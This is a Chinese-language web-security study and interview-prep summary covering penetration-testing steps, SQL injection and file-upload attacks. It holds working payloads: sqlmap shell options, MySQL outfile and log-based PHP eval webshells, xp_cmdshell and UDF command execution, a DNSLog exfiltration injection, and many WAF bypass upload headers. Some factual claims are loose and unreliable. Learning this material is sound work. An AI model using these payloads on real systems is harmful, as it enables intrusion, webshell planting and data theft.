<!--more--> 
# 前言
这些内容是我在2022年需要找工作时提出做的Web安全知识点汇总，有2019入行到2022年共3年的经验。如今是从2023年回头来看这些内容，发现大部分的知识都还有用，所以选择公开以便查询。

# 渗透测试思路
### 1、信息收集
a、服务器的相关信息（真实ip，系统类型，版本，开放端口，WAF等）
b、网站指纹识别（包括，cms，cdn，证书等），dns记录
c、whois信息，姓名，备案，邮箱，电话反查（邮箱丢社工库，社工准备等）
e、子域名收集，旁站，C段等
f、google hacking针对化搜索，pdf文件，中间件版本，弱口令扫描等
g、扫描网站目录结构，爆后台，网站banner，测试文件，备份等敏感文件泄漏等
h、传输协议，通用漏洞，exp，github源码等
### 2、漏洞挖掘
a、浏览网站，看看网站规模，功能，特点等
b、端口，弱口令，目录等扫描,对响应的端口进行漏洞探测，比如 rsync,心脏出血，mysql,ftp,ssh弱口令等。
c、XSS，SQL注入，上传，命令注入，CSRF，cookie安全检测，敏感信息，通信数据传输，暴力破解，任意文件上传，越权访问，未授权访问，目录遍历，文件 包含，重放攻击（短信轰炸），服务器漏洞检测，最后使用漏扫工具等
### 3、漏洞利用&权限提升
a、mysql提权，serv-u提权，oracle提权
b、windows 溢出提权
c、linux脏牛,内核漏洞提权e
### 4、清除测试数据&输出报告
日志、测试数据的清理
总结，输出渗透测试报告，附修复方案
### 5、复测
验证并发现是否有新漏洞，输出报告，归档

## 遇到登陆界面有什么入侵思路？
我认为这种分两种情况，一种是 SSO 登陆还有一种是单点登陆。
### 单点登陆

1. 弱口令
2. SQL注入
3. 爆破
4. JS未授权接口
5. 路径扫描
6. 尝试构造正确返回包

这些攻击手段仍然不足以获得权限可以考虑信息收集。

7. **寻找默认密码**

a. 寻找站点指纹（标题，copy right，返回header头，JS署名，icon图标等）利用 fofa、鹰图平台、quake 搜索
b. 复制路径寻找相同站点或者系统文档之类的
c. Google hack 寻找系统使用文档等可能存在默认密码的东西
d. Github 泄露系统源码或者是口令（如果有源码可以尝试搭建后构造正确返回包，最后代码审计）
### SSO登陆
只能通过信息收集来获取账户了。不过有一些会先加载系统再去请求 SSO 的，这个时候可以看看 JS 会不会泄露一些敏感信息，比如 OSS 的验证key和密钥之类的。
# 常见漏洞
比较常问的都是 SQL 文件上传。

## SQL 注入
SQLSERVER可以命令执行是内网滲透中常用。
> 顺便一提，如果拿到的机器上面运行了 navicat 那就可以通过工具拿到 root/sa 密码


### 原理
指web应用程序对用户输入的数据合法性没有判断，导致攻击者可以构造不同的[sql语句](https://www.zhihu.com/search?q=sql%E8%AF%AD%E5%8F%A5&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)来对数据库数据库的操作。（web应用程序对用户输入的数据没有进行过滤，或者过滤不严，就把sql语句带进数据库中进行查询）。
Sql注入漏洞的产生需要满足两个条件：
①参数用户可控：前端传给后端的参数内容是用户可以控制的。
②参数代入数据库查询：传入的参数拼接到sql语句，且带入数据库查询。

### 危害
①数据库信息泄漏：数据库中存放的用户的隐私信息的泄露。
②[网页篡改](https://www.zhihu.com/search?q=%E7%BD%91%E9%A1%B5%E7%AF%A1%E6%94%B9&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)：通过操作数据库对特定网页进行篡改。
③网站被挂马，传播恶意软件：修改数据库一些字段的值，嵌入网马链接，进行挂马攻击。
④数据库被恶意操作：数据库服务器被攻击，数据库的系统管理员帐户被窜改。
⑤服务器被远程控制，被安装后门。经由[数据库服务器](https://www.zhihu.com/search?q=%E6%95%B0%E6%8D%AE%E5%BA%93%E6%9C%8D%E5%8A%A1%E5%99%A8&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)提供的操作系统支持，让黑客得以修改或控制操作系统。
⑥破坏硬盘数据，瘫痪全系统。

### 修复建议
①过滤危险字符：例如，采用[正则表达式](https://www.zhihu.com/search?q=%E6%AD%A3%E5%88%99%E8%A1%A8%E8%BE%BE%E5%BC%8F&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)匹配union、sleep、load_file等关键字，如果匹配到，则退出程序。
②使用预编译语句：使用PDO预编译语句，需要注意，不要将变量直接拼接到PDO语句中，而是使用占位符进行数据库的增加、删除、修改、查询。
③特殊字符转义、使用严格的数据类型。

### 绕过
内联注释、双重编码、替换黑名单函数、分块传输(HTTP走私)、垃圾内容填充，大小写。
16进制绕过、宽字节、常用字符的替代
sqlmap 利用洋葱游览器代理池绕过 IP 防封
HTTP参数污染：ASP.NET/IIS 和 ASP/IIS 特定参数所有内容进行拼接 par1=val1,val2
> [https://www.freebuf.com/articles/web/264593.html](https://www.freebuf.com/articles/web/264593.html)

#### 垃圾字符填充
%23%0A
在做的时候要想办法绕过这个规则（虽然我当现在也没有理解）%23是#，#又是注释符说明后面的语句不执行，%23后面又是%0A %0A是换行符，于是语句就变成了这样。


### SQLmap常用参数
#### 注入参数
```shell
sqlmap.py -u "url" --current-db  //查看当前数据库
sqlmap.py -u "url" --current-user //查看当前用户
sqlmap.py -u "url" --is-dba  //查看当前用户权限是否是DBA
sqlmap.py -u "url" -D 数据库名称 --tables //知道库名猜解表名
sqlmap.py -u "url" -D 数据库名称 -T 表名 --columns   //知道库名、表名解列名
sqlmap.py -r 1.txt //使用POST抓包文件进行注入
--random-agent
--delay 1
```
#### 常用参数
```shell
--level //测试等级（1-5）默认是1，cookie注入是2，http头注入是3
--dbms=mysql/oracle/mssql //指定数据库（这样既可以节省时间，在某些时候也可以绕过waf）
--batch //使用sqlmap默认选项，不用按回车
--random-agent    //使用随机选定的User-Agent头
--passwords //列出并破解数据库用户的hash
```
#### Shell相关
```shell
--os-pwn    //反弹shell
--os-shell  //交互式系统shell，可以执行cmd命令
--sql-shell //sql-shell，可以执行SQL语句
--os-cmd="id" //执行id系统命令
```
#### 
### SQL预编译
#### spring 使用了 mybatis 预编译
一般是使用了"#{}"是将传入的值按照字符串的形式进行处理**因为"#{}"会在传入的值两端加上单引号，所以可以很大程度上防止SQL注入。**
"${}"是做简单的字符串替换，即将传入的值直接拼接到SQL语句中，且不会自动加单引号。就等于加号拼接。

#### PDO预编译
当我们输入**xxx=abc**时，预编译的代码会自动给**abc**加上引号,变成**'abc'。**
**但是有一些地方是不能加引号的，比如 order by 后面的参数。**

**防御**
采用白名单的方式，因为order by之后跟的字段名肯定是有限的并且是数据库中已经存在的字段，只要对这些有限字段设置白名单，任何不在白名单内的数据统一报错。
> [https://www.jianshu.com/p/70f83c2be2ad](https://www.jianshu.com/p/70f83c2be2ad)


### 延时注入
> 延时注入属于盲注技术的一种，是一种基于时间差异的注入技术。

`sleep()`
`benchmark()`
`笛卡尔积`
使用
SELECT * from database.tableA,database.tableB
就会对tableA,B进行笛卡尔运算。两个集合相乘的笛卡尔积

### 二次注入
二次注入的原理，在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。登陆查询会转义，注册时也会转义但还是原封不动的写入了数据库，导致在其他没有做转义的地方可以注入。

### Oracle注入
1.Oracle的数据类型是强匹配的(MYSQL有弱匹配的味道)，所以在Oracle进行类似UNION查询数据时候必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用null代替某些无法快速猜测出数据类型的位置。
2.Oracle的单行注释符号是-- ，多行注释符号/**/。
Mysql

- 单行**注释**： 单行**注释**可以使用 # **注释**符， # **注释**符后直接加**注释**内容 ...
- 多行**注释**： 多行**注释**使用 /* */ **注释**符。 /* 用于**注释**内容的开头， */ 用于**注释**内容的结尾。

3.Oracle和mysql不一样，分页中没有limit，而是使用三层查询嵌套的方式实现分页

### 如何判断sql注入
提交错误语句是否有异常，除此之外这些显示的错误可以通过sleep,休眠语句执行5秒等，除此之外通过DNSlog判断是还有传回值

### 注入方式有哪些？
报错、盲注、联合、时间、内联、堆叠

### 逐个/一次性爆出列名分别用什么？

- limit
- group_concat

### 报错注入常用函数
updatexml函数、extractvalue函数

#### extractvalue函数
限制长度为32位
```php
and extractvalue(1,concat(0x7e,(select user()),0x7e));
```
该参数接受两个字符串参数，一个xml标记片段和一个xpath表达式，而第二参数要求xpath格式字符串，而我们不是要求xpath的格式所以报错。
> 参考：[https://www.cnblogs.com/xishaonian/p/6250444.html](https://www.cnblogs.com/xishaonian/p/6250444.html)


#### updatexml函数
限制长度为32位
```php
and updatexml(1,concat(0x7e,(select user()),0x7e),1)
```
updatexml(1,2,3)第一个参数是string格式，为xml文档对象的名称，第二个参数为xpath格式的字符串，第三个string格式，替换查找到的符合条件的数据，由于第二个参数要xpath格式的字符串，因为不符合规则所以报错。
> 参考：[http://blog.csdn.net/qq_37873738/article/details/88042610](http://blog.csdn.net/qq_37873738/article/details/88042610)


### 宽字符注入的原理？
在mysql中使用了 ** gbk编码 **，**mysql在使用GBK编码的时候，会认为两个字符是一个汉字**。（前一个ASCII码**要大于128**，才到汉字的范围），**%df%5C会被当作一个汉字处理**，从而使%27（单引号）逃出生天，成功绕过。

先了解一下这些字符的url编码：

当输入单引号，经addslashes转义后，对应的url编码是：
**‘ --> \' --> %5C%27**
当在前面引入一个ASCII大于128的字符（比如%df），url编码变为：
**%df --> %df \ ' --> （%df%5C）%27**

### Mysql5.0以上和5.0以下区别？
5.0以下没有information_schema这个系统表，无法列表名等，只能暴力跑表名。
5.0以下是多用户单操作，5.0以上是多用户多操做。

### mysql的用户名密码存放在那张表？mysql密码采用哪种加密方式？
mysql -> users
SHA1

### mysql Getshell方法
outfile、dumpfile、开启log写webshell、UDF提权

- outfile可以写入多行数据，并且字段和行终止符都可以作为格式输出。
- dumpfile只能写一行，并且输出中不存在任何格式。
#### 1. 写 web shell
条件：

1. 要知道网站绝对路径，可以通过报错，phpinfo界面，404界面等一些方式知道
2. gpc没有开启，开启了单引号被转义了，语句就不能正常执行了
3. 要有file权限，默认情况下只有root有
4. 对Web目录要有写权限，一般image之类的存放突破的目录就有
5. 没有配置 –secure-file-priv（secure-file-priv=空）
> secure_file_priv参数用于限制LOAD DATA, SELECT …OUTFILE, LOAD_FILE()传到哪个指定目录
> secure_file_priv 为 NULL 时，表示限制mysqld不允许导入或导出。
> secure_file_priv 为 /tmp 时，表示限制mysqld只能在/tmp目录中执行导入导出，其他目录不能执行。
> secure_file_priv 没有值时，表示不限制mysqld在任意目录的导入导出。

```shell
show global variables like '%secure%';    
##查看secure-file-priv值
select group_concat(user,0x3a,file_priv) from mysql.user;  
##查看当前用户是否有写权限，Y代表有
select '<?php phpinfo() ?>' into outfile '/www/work/webshell.php'; 
##写shell多种方式outfile,dumpfile，具体分析 若内容存在引号，会存在语法错误 
```
#### 2. 慢查询getshell
**比全局日志好，全局日志太大，shell容易500，慢查询日志体积小**
条件：

1. myqsl > 5.0
2. 账号有读写权限
3. 知道网站的绝对路径
```shell
show variables like '%slow%';

Variable_name         Value
log_slow_queries         OFF
slow_launch_time         2
slow_query_log         OFF
slow_query_log_file         C:\phpStudy\PHPTutorial\MySQL\data\WIN-374NAWYudt-slow.log


set GLOBAL slow_query_log_file='C:/phpStudy/PHPTutorial/WWW/slow.php';
set GLOBAL slow_query_log=on;

/*set GLOBAL log_queries_not_using_indexes=on;
show variables like '%log%';*/

select '<?php phpinfo();?>' from mysql.db where sleep(10);
```
#### 3. 日志 getshell
条件：

1. myqsl > 5.0
2. 账号有读写权限
3. 知道网站的绝对路径

1.在知道网站绝对路径的情况下，直接去第二步，如果不知道网站绝对路径的情况下
#查看数据库存放路径
select @@datadir;
然后根据数据库存放路径猜测网站的绝对路径。
2.查看日志是否开启
show variables like '%general%';
一般这个日志记录是默认关闭的，需要我们手动开启
**3.开启日志记录**
SET GLOBAL general_log='on';
**4.修改日志路径**
set global general_log_file='D:\\phpStudy\\WWW\\shell.php';
#这里一定要用\\，或者使用/，不能使用\。
5.写入shell
select "<?php eval($_POST['gg']);?>";
条件：

1. dbo权限。
2. 站库不分离。
3. 数据库被备份过一次。
4. 知道绝对路径，并且可以写入。


### SqlServer的漏洞利用
> 如果xp_cmdshell被禁止，也可以使用另外两种函数执行。

一、利用xp_cmdshell提权
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复
```sql
exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll'
```

二、利用SP_OACreate提权
三、利用SQL Server CLR提权

### DNSLog盲注
时间盲注可以获取到内容，但是整个过程效率低，需要发很多请求判断。可能会触发安全设备。
这里我们我们需要一种方式，减少请求，直接回显数据，这里可以使用dnslog注入
mysql.ini中secure_file_priv必须为空。

使用 load_file 远程请求文件
```shell
?id=1’ and load_file(concat("//",database(),".93y0wi.dnslog.cn/xx.txt"))–+
```

### 两个提权
[https://www.sqlsec.com/2020/11/mysql.html](https://www.sqlsec.com/2020/11/mysql.html)
#### UDF 提权
MySQL可以自定义函数,通过自定义函数做到类似xp_cmdshell效果
如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 \lib\plugin 文件夹下文件夹下才能创建自定义函数。

1. **确认 plugin 路径**
```php
select @@basedir;
+--------------------------------+
| @@basedir                      |
+--------------------------------+
| C:/sunmnet/mysql-5.7.13-winx64 |
+--------------------------------+
show variables like '%plugins%';
+---------------+------------------------------+
| Variable_name | Value                        |
+---------------+------------------------------+
| plugin_dir    | /usr/local/mysql/lib/plugin/ |
+---------------+------------------------------+
```

2. **如果不存在可以通过 SQLMAP 写入**
> SQL 注入且是高权限，plugin 目录可写且需要 secure_file_priv 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库，又因为 GET 有**字节长度限制**，所以往往 POST 注入才可以执行这种攻击

```php
sqlmap -u "http://localhost:30008/" --data="id=1" --file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
```
如果是直接使用 dumpfile 可以看这 [https://www.sqlsec.com/tools/udf.html](https://www.sqlsec.com/tools/udf.html)


3. **提权**

新建函数
```php
mysql > CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
```
可能看到这个报错，因为 lib_mysqludf_sys_64.dll 失败，最后使用 lib_mysqludf_sys_32.dll 才成功，所以这里的 dll 应该和系统位数无关，可能和 MySQL 的安装版本有关系，而 PHPStudy 自带的 MySQL 版本是 32 位的
```php
ERROR 1126 (HY000): Can't open shared library 'udf.dll' (errno: 193 )
```
我自己在试的时候使用的是 64位的

查看是否写入成功
```php
select * from mysql.func;
+----------+-----+---------+----------+
| name     | ret | dl      | type     |
+----------+-----+---------+----------+
| sys_eval |   0 | udf.dll | function |
+----------+-----+---------+----------+
```
执行命令
```php
select sys_eval('whoami');
+---------------------+
| sys_eval('whoami')  |
+---------------------+
| nt authority\system |
+---------------------+
```
删除函数
```php
drop function sys_eval;
```
### 
#### MOF 提权
MOF 提权是一个有历史的漏洞，基本上在 Windows Server 2003 的环境下才可以成功。提权的原理是C:/Windows/system32/wbem/mof/目录下的 mof 文件每 隔一段时间（几秒钟左右）都会被系统执行，因为这个 MOF 里面有一部分是 VBS 脚本，所以可以利用这个 VBS 脚本来调用 CMD 来执行系统命令，如果 MySQL 有权限操作 mof 目录的话，就可以来执行任意命令了。

## 文件上传
### 文件上传漏洞原理
由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致用户可以越过其本身权限向服务器上传可执行的动态脚本文件。

### 危害
非法用户可以利用[恶意脚本文件](https://www.zhihu.com/search?q=%E6%81%B6%E6%84%8F%E8%84%9A%E6%9C%AC%E6%96%87%E4%BB%B6&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)控制整个网站，甚至控制服务器。这个恶意脚本文件，又称为webshell，也可将[webshell脚本](https://www.zhihu.com/search?q=webshell%E8%84%9A%E6%9C%AC&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)称为一种网页后门，webshell脚本具有很强大的功能，比如查看服务器目录、服务器中的文件，执行绕过命令等。

### 修复建议
①通过白名单方式判断文件后缀是否合法。
②对上传的文件进行重命名。

### **说说常见的中间件解析漏洞利用方式**

#### IIS6.0解析漏洞

1. 目录解析

比如`www.baidu.com/1.asp/2.jpg`
看起来是个图片文件，但会被服务器当成asp文件解析

2. 文件解析

比如`www.baidu.com/1.asp;.jpg`
看起来还是个图片文件，但还是会被当成asp文件解析

iis6.0下默认的可执行文件还有`asa`、`cer`、`cdx`
我以前就有从前台上传cer小马成功取得webshell的例子
强调一点，asp不解析aspx，因为aspx是.net，而asp是asp。

#### IIS 7.0/7.5
默认Fast-CGI开启，直接在url中图片地址后面输入/1.php，会把正常图片当成php解析
也可以 a.asp.x

#### Nginx<8.03解析漏洞
第一种漏洞：
在默认Fast-CGI开启状况下
上传一个名字为sss.jpg
代码如下：
`<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[sss])?>');?>`
然后访问sss.jpg/.php
这个目录下就会生成一句话木马shell.php

第二种：空字节代码执行
Nginx在上传图片马
然后通过访问`S.jpg%00.php`来执行其中的代码

#### Apache
上传的文件命名为：test.php.x1.x2.x3，Apache是从右往左判断后缀

### 常见的上传绕过方式
其实主要是 filename、Content-Type，文件名，文件内容这两个方面做检测。
目前，市面上常见的是解析文件名，少数WAF是解析文件内容，比如长亭。

#### 后缀绕过


1. **去掉引号**
```shell
Content-Disposition: form-data; name=file_x; filename="xx.php"

Content-Disposition: form-data; name=file_x; filename=xx.php

Content-Disposition: form-data; name="file_x"; filename=xx.php
```

2. **双引号变成单引号**
```shell
Content-Disposition: form-data; name='file_x'; filename='xx.php'
```
单引号、双引号、不要引号，都能上传。


3. **大小写**

对这三个固定的字符串进行大小写转换

- Content-Disposition
- name
- filename

比如name转换成Name，Content-Disposition转换成content-disposition。

4. **空格**

在filename=后面添加空格

5. **去掉或修改Content-Disposition值**

有的WAF在解析的时候，认为Content-Disposition值一定是form-data，造成绕过。
```shell
Content-Disposition: name='file_x'; filename='xx.php'
```

6. **交换name和filename的顺序**

规定Content-Disposition必须在最前面，所以只能交换name和filename的顺序。
有的WAF可能会匹配name在前面，filename在后面，所以下面姿势会导致Bypass。
```shell
Content-Disposition: form-data; filename="xx.php"; name=file_x
```

7. **多个boundary**

最后上传的文件是test.php而非test.txt，但是取的文件名只取了第一个就会被Bypass。
```shell
------WebKitFormBoundaryj1oRYFW91eaj8Ex2

Content-Disposition: form-data; name="file_x"; filename="test.txt"

Content-Type: text/javascript

<?php phpinfo(); ?>

------WebKitFormBoundaryj1oRYFW91eaj8Ex2

Content-Disposition: form-data; name="file_x"; filename="test.php"

Content-Type: text/javascript

<?php phpinfo(); ?>

------WebKitFormBoundaryj1oRYFW91eaj8Ex2
```

8. **多个filename**

最终上传成功的文件名是test.php。但是由于解析文件名时，会解析到第一个。正则默认都会匹配到第一个。
```php
Content-Disposition: form-data; name="file_x"; filename="test.txt"; filename="test.php"
```

9. **多个分号**

文件解析时，可能解析不到文件名，导致绕过。
```php
Content-Disposition: form-data; name="file_x";;; filename="test.php"
```

10. **multipart/form-DATA**

这种绕过应该很少，大多数都会忽略大小写。php和java都支持。
```php
Content-Type: multipart/form-DATA
```

11. **Header在boundary前添加任意字符**

这个只能说，PHP很皮，这都支持。试了JAVA会报错。
```php
Content-Type: multipart/form-data; bypassboundary=----WebKitFormBoundaryj1oRYFW91eaj8Ex2
```

12. **filename换行**

PHP支持，Java不支持。
```php
Content-Disposition: form-data; name="file_x"; file
name="test.p
hp"
```

13. **filename==或者filename===绕过**
```php
Content-Disposition: form-data; name="image"; filename=="01.php"

Content-Disposition: form-data; name="image"; filename==="01.php"
```

14. **name 和filename添加任意字符或者是大量字符**
```php
Content-Disposition: form-data; name="image";upload hello world; filename==="01.php"
```


15. **form-data用+拼接**
```php
Content-Disposition:fo+rm+data;name="upload_file";filename='15.php'
```

16. **Content-Disposition：***
```php
Content-Disposition: *;name="upload_file";filename='15.php'
```

17. **filename="1.jpg .Php" **

多种后缀尝试，类似 .php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx 等

18. **更多**
- 覆盖.htaccess
- 配合解析漏洞
- 图片马配合文件包含
- 文件名填充垃圾字符

